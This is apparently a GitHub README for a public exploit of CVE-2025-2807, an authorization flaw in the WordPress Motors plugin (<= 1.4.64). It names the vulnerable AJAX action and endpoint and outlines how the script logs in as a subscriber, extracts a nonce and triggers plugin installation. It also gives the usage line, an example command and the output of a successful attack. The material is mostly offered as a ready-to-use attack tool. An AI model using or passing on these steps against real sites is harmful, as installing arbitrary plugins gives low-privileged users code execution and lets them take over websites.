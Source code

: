 
# CVE-2025-2807: Motors Plugin <= 1.4.64 - Arbitrary Plugin Installation Vulnerability

> **Exploit By:** Nxploited | Khaled Alenazi

---

## ⚠️ Vulnerability Summary

**Plugin:** Motors (<= 1.4.64)  
**Type:** Missing Authorization to Authenticated (Subscriber+) Arbitrary Plugin Installation  
**Severity:** 8.8 (CVSS v3)  
**Discovered On:** 07 April 2025  
**VDP:** No

---

## 🔥 Exploit Impact

This vulnerability allows any **authenticated WordPress user (Subscriber+)** to install arbitrary plugins **without any proper authorization check**. 

Due to the lack of capability validation in the `mvl_setup_wizard_install_plugin` function, a low-privileged user can perform actions reserved for administrators.

> 📅 Expected to be mass-exploited due to its simplicity and critical impact.

---

## 🚫 Technical Details

- Vulnerable Endpoint: `/wp-admin/admin-ajax.php`
- Vulnerable Action: `mvl_setup_wizard_install_plugin`
- Access Level Required: **Subscriber+** (logged-in user)
- Core Issue: Missing `current_user_can('install_plugins')` or similar capability check


---

## 🚀 Exploit Script (Python)
This script:
1. Logs in as a subscriber
2. Extracts the required nonce (from HTML or JS)
3. Triggers the vulnerable AJAX call to install a plugin of your choice

---

## 📃 Usage
```bash
usage: CVE-2025-2807.py [-h] -u URL -un USERNAME -p PASSWORD [-pn PLUGIN]

Exploit For CVE-2025-2807 By: Nxploited | Khaled Alenazi

options:
  -h, --help            show this help message and exit
  -u, --url URL         Base URL of WordPress site
  -un, --username USERNAME     Subscriber username
  -p, --password PASSWORD      Subscriber password
  -pn, --plugin PLUGIN         Plugin to install (default: contact-form-7)
```

---

## 🐞 Example Execution
```bash
python3 CVE-2025-2807.py -u http://192.168.1.100/wordpress -un subscriber -p 123456 -pn contact-form-7
```

### Output:
```
[*] Logging in...
[+] Logged in successfully.
[*] Fetching setup wizard page...
[+] Found nonce in HTML: 428cdf8347
[*] Attempting to install plugin: contact-form-7
[+] Plugin installation request sent successfully!
[+] Response: {"success":true,"data":"Plugin succesfully activated"}
```

---



---

  
## ✨ Exploit by **Nxploited** (Khaled Alenazi)
